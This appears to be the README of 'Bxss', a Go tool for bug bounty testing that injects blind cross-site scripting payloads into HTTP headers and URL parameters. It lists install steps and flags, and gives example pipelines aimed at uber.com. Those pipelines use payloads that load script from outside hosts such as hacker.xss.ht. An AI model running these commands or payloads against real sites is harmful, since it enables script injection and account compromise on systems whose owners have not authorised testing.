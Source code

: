 ![alt text](https://www.secjuice.com/content/images/2018/09/blinded-drib.jpg)
##### Version 1.0

# 😎 Bxss 😎
**A Blind XSS Injector tool**



[![Image from Gyazo](https://i.gyazo.com/61c052718748373ff2d267280e2e69cb.gif)](https://gyazo.com/61c052718748373ff2d267280e2e69cb)

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup


### Install


**`$ go get -u github.com/ethicalhackingplayground/bxss`**

### Arguments
```


          ____
         |  _ \
         | |_) |_  _____ ___
         |  _ <\ \/ / __/ __|
         | |_) |>  <\__ \__ \
         |____//_/\_\___/___/


        -- Coded by @z0idsec --
  -appendMode
        Append the payload to the parameter
  -concurrency int
        Set the concurrency (default 30)
  -header string
        Set the custom header (default "User-Agent")
  -parameters
        Test the parameters for blind xss
  -payload string
        the blind XSS payload
        
```

[![Image from Gyazo](https://i.gyazo.com/c3f18487b015767f011d0845409c6e5b.gif)](https://gyazo.com/c3f18487b015767f011d0845409c6e5b)


### Blind XSS In Parameters
**`$ subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters`**

### Blind XSS In X-Forwarded-For Header

**`$ subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"`**



**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>

